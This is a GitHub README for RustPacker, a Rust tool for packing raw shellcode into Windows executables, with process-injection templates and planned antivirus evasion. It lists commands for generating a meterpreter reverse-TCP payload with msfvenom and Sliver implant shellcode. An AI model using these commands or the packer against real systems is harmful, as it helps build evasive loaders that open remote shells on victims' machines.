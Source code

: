 # RustPacker
Shellcode packer written in Rust.

## Current state
Functional as it packs a binary file, but useless as I need to add evasion and encryption stuff before it can bypass anything.

## Are you a Rust developer?
If you have some experience with Rust, you're more than welcome to help !
You can help by:
- Review the code for mistakes / improvements
- Opening issues
- Contacting me on Discord for a more in depth review (nariod#4621)

# Quick start

## Podman/Docker setup
Consider using Podman instead of Docker for [security reasons](https://cloudnweb.dev/2019/10/heres-why-podman-is-more-secured-than-docker-devsecops/).
From any internet-connected OS with either Podman or Docker installed:
- `git clone https://github.com/Nariod/RustPacker.git`
- `cd RustPacker/`
- `podman build -t rustpacker -f Dockerfile`
- Paste your shellcode file in the `shared` folder
- `podman run --rm -v $(pwd)/shared:/usr/src/RustPacker/shared:z rustpacker RustPacker -f shared/calc.bin -i ct`

For regular use, you can set an alias:
- On Linux host: `alias rustpacker='podman run --rm -v $(pwd)/shared:/usr/src/RustPacker/shared:z rustpacker RustPacker'`
- Then: `rustpacker -f shared/calc.bin -i ct`

## Manual install on Kali
Install dependencies:
- `sudo apt update && sudo apt upgrade -y`
- `sudo apt install -y libssl-dev librust-openssl-dev musl-tools mingw-w64 cmake libxml2-dev`

Install Rust:
- `curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh `
- `source $HOME/.cargo/env`
- `rustup target add x86_64-pc-windows-gnu`

Run RustPacker:
- `git clone https://github.com/Nariod/RustPacker.git`
- `cd RustPacker/`
- `cargo run -- -f shellcode.bin -i ct`

# Full documentation

## Create shellcode
RustPacker is compatible with any "raw" shellcode.

### Metasploit / MSFvenom
You can generate raw MSF shellcode using msfvenom's raw format. Ex:
- `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=127.0.0.1 LPORT=80 -f raw -o msf.bin`

### Sliver
You can generate raw [Sliver](https://github.com/BishopFox/sliver) shellcode using Sliver's "--format shellcode". Ex:
- `generate --mtls 127.0.0.1:443 --format shellcode --windows`
- Do not use Shikata Ga Nai (SGN) Sliver encoder if prompted. RustPacker templates do not use RWX memory regions, which are required for SGN to work.

## Todo
- [X] Port createThread Rust template
- [X] Port createRemoteThread Rust template
- [X] Debug binary file to Vec<u8>
- [X] Debug compiler -> Done, FFS !
- [X] Packer POC
- [X] Migrate to "std::include_bytes"
- [ ] Add encryption / encoding
- [X] Build dockerfile
- [X] Strip output binaries
- [ ] Support the awesome evasions from https://github.com/memN0ps/mordor-rs
- [ ] Write detailed doc

## Credits
- Rust discord
- StackOverflow
- https://github.com/postrequest/link

## Legal disclaimer
Usage of anything presented in this repo to attack targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
